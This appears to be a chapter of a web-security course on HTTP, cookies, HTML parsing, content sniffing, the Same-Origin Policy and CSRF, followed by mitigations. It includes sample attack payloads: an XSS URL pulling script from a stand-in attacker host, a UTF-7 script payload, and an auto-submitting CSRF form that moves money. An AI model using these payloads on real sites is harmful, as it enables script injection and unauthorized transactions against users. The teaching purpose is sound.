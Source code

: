 # The Web in Depth

* HTTP basics
* Cookie security
* HTML parsing
* MIME sniffing
* Encoding sniffing
* Same-Origin Policy
* CSRF (Cross-Site Request Forgery)

## Requests

![Example Web Request](../../img/web-request.png)

If you haven't seen a web request before, then that's OK. You will become very familiar with their structure and contents soon. The basic format is as follows:

VERB /resource/locator HTTP/1.1
Header1: Value1
Header2: Value2
...
<Body of request>

### Request Headers

* Hots: indicates the desired host handling the request
* Accept: indicates the MIME type(s) are accepted by the client; often used to specify JSON or XML output for web-services
* Cookie: passes cookie data to the server
* referer: page leading to this request (note: this not passed to other servers when using HTTPS on the origin)
* Authorization: Used for 'basic auth' pages (mainly). Takes the for "Basic <base64'd username:password>"

### Cookies

Cookies are key-value pairs of data that are sent from the server and reside on the client for a fixed period of time.

Each cookie has a domain pattern that it applies to and they're passed with each request the client makes to matching hosts.

#### Cookie Security

* Cookies added for .example.com can be read by any subdomain of example.com
* cookies added for a subdomain can only be read in that subdomain and its subdomains
* a subdomain can set cookies for its own subdomains and parent, but it can't set cookies for sibling domains
    + e.g. test.example.com can't set cookies on test2.example.com, but can set them on example.com and foo.test.example.com

There are two important flags to know for cookies:

* Secure: the cookie will only be accessible to HTTPS pages
* HTTPOnly: the cookie cannot be read by javascript

The server indicates these flags in the set-cookie header that passed them in the first place.

###

## HTML

### Parsing

HTML should be parsed according to the relevant spec, generally HTML5 now. But when you're talking about security, it's often not just parsed by your browser, but also Web-Application Firewalls and other filters. Wherever there's a discrepancy in how these two items parse things, there's probably a vulerability.

##### Canonical Example

You go to http://example.com/vulnerable?name=<script/xss%20src=http://evilsite.com/my.js> and it generates:

```html
<!doctype HTML>
<html>
<head>
    <title>
    Vulerable page named <script /xss src=http://evilsite.com/my.js>
    </title>
</head>
<html>
```
A bad XSS filter on the web application may not see that as a script tag due to it being a 'script/xss' tag. But Firefox's HTML parser, for instance, will treat the slash as whitespace, enabling the attack!

Now what would this do? Absolutely nothing on a browser, you'll have a blank XSS tag. However, a WAF would have let this straight through. Any discrepency will generally be able to pass through.

### Legacy Parsing

Due to decades of bad HTML, browsers are quite excellent at cleaning up after authors, and these conditions are often exploitable.

* a <script> tag on its own will automatically be closed at the end of the page
* a tag missing its closing angle bracket will automatically be closed by the angle bracked of the next tag on the page

## Content Sniffing

### MIME Sniffing

> MIME: Multipurpose Internet Mail Extensions

The broswer will often not just look at Content-Type header that the server is passing, but also the contents of the page. if it looks enough like HTML, it'll be parsed as HTML

This led to IE 6/7-era bugs where image and text files containing HTML tags would execute as HTML.

Imagine a site with a file upload function for profile pictures. If that file contains enough HTML to trigger the sniffing hueristics, an attacker could upload a picture and then link it to victims.

This is one reason why Facebook and other sites use a separate domain to host such content.

### Encoding Sniffing

Similarly, the encoding used on a document will be sniffed by (mainly older) browsers.

If you don't specify an encoding for an HTML document, the browser will apply hueristics to determine it. If you are able to control the way the browser decodes text, you may be able to alter the parsing.

A good example is putting UTF-7 (7-bit Unicode with Base-64'd blocks denoted by +...-) text into XSS payloads.

Consider the payload:

> +ADw-script+AD4-alert(1);+ADw-/script+ADr-

This will go cleanly through HTML encoding, as there are no 'unsafe' characters.

IE8 and below, along with a host of other older browsers, will see this in a page as UTF-7 and switch parsing over, enabling the attack to succed.

## Same-Origin Policy

What is SOP? Same-Origin Policy (SOP) is how the browser restricts a number of security-critical features:

* What domains you can contact via XMLHttpRequest
* Access to the DOM across separate frames/windows

### Origin Matching

The way origin matching for SOP works is much more strict than cookies:

* Protocol must match -- no crossing HTTP/HTTPS boundaries
* Port numbers must match
* Domain names must be an exact match - no wildcarding or subdomain walking

### SOP Loosening

Its possible for developers to loosen the grip that SOP has on their communications, by changing document.domain, posting messages between windows, and by using CORS (Cross-origin resource sharing).

All of these open up interesting avenues for attack. Anyone can call postMessage into IFrame - how many pages validate messages properly?

## CORS

CORS is still very new, but enables some very risky situations. In essence, you're allowed to make XMLHttpRequests to domains outside of your origin, but they have special headers to signify where the request originates, what custom headers are added, etc.

It's possible to even have it pass the receiving domain's cookies, allowing attackers to potentially compromise logged-in users. The securitty prospects here are still largely unexplored.

## Cross-Site Request Forgery

Usually if you find one in an app, you're going to find many, it's systemic.

### What is CSRF?

Cross-site Request Forgery is when an attacker tricks a victim into going to a page controlled by the attacker, which then submits data to the target site as the victim.

It is one of the most common vulnerabilities today, and enables a whole host of others, namely rXSS.

The canonical example is a bank transfer site. Here we have a form that allows a user to transfer money from their account to a destination account.

```html
<form action=/levels/0/" method="POST">
    <h2>Transfer Funds</h2>
    Destination Account: <input type="input" name="to" value""><br>
    Amount: <input type="input" name="amount" value="">
    <br>
    <br>
    <input type="submit" value="Transfer">
</form>
```

When the server gets such a transfer request from the client, how can it tell that it actually came from the real site? Referer headers are unreliable at best.

Here we can see an automatic exploit that will transfer money if the user is logged in.

```html
<body onload="document.forms[0].submit()">
    <form action="https://victim.vulnerable/levels/0/" method="POST">
    <input type="hidden" name="amount" value="1000000">
    <input type="hidden" name="to" value="1625">
    </form>
</body>
```

### Mitigation

Clearly, we need a way for the server to know for sure that the request has originated on its own page.

The best way to mitigate this bug is through the use of CSRF tokens. These are random tokens tied to user's session, which you embed in each for that you generate.

Here you can see a form containg a safe, random CSRF token. In this case, it's 32 nibbles of hex - plenty of randomness to prevent guessing it.

```html
<form action="post" method="POST">
    What's on your mind?<br>
    <textarea cols="40">
    <input type="hidden" name="csrf" value="8dbdb545d29dfc070911212d55cb871d">
    <input type="submit">
</form>
```

When the server gets a POST request, it should check to see that the CSRF token is present and matches the token associated with the user's session.

Note that this will not help you with GET requests typically, but applications _should not_ be changing state with GET requests anyway.

#### How not to mitigate

I've seen a number of sites implement "dynamic CSRF-proof forms". They had a csrf.js file that sends back code rougly equivalent to: $csrf = 'session CSRF token';

On each page, they had <script src="/csrf.js"> and then baked the CSRF token into the forms from there.

So all I had to do was include that same tag in my own exploit.

###

## Review

* Cookie domain scoping is often a source of trouble
* Same-origin Policy is strict, but complex enough to be a frequent source of headaches for defenders and attackers alike
* Cross-Site Request forgery is when an attacker tricks a victim into going to a page that triggers requests on other sites 
    + Use CSRF Tokens!

---

[Back to main repository!](../../README.md)

[Back to intro!](./intro.md)

[Onward to writing good reports!](./writing-good-reports.md)